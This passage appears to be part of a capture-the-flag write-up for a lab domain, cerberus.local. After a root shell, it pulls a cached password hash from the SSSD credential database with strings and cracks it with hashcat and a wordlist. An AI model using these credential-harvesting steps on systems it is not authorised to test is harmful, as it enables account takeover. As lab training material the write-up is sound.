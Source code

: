 In the new shell 

- `su -`

uid=0(root) gid=0(root) groups=0(root)

## Domain Informations

```
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

```

### SSSD services and domains

[13.2.2. Setting up the sssd.conf File Red Hat Enterprise Linux 6 | Red Hat Customer Portal](https://access.redhat.com/documentation/de-de/red_hat_enterprise_linux/6/html/deployment_guide/about-sssd-conf)

```
[sssd]
domains = cerberus.local
config_file_version = 2
services = nss, pam

[domain/cerberus.local]
default_shell = /bin/bash
ad_server = cerberus.local
krb5_store_password_if_offline = True
cache_credentials = True
krb5_realm = CERBERUS.LOCAL
realmd_tags = manages-system joined-with-adcli
id_provider = ad
fallback_homedir = /home/%u@%d
ad_domain = cerberus.local
use_fully_qualified_names = True
ldap_id_mapping = True
access_provider = ad
```

## Cache passwords

We find a cache file with a password hash. 

- `strings /var/lib/sss/db/cache_cerberus.local.ldb`

```
$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0
```

- `hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt`
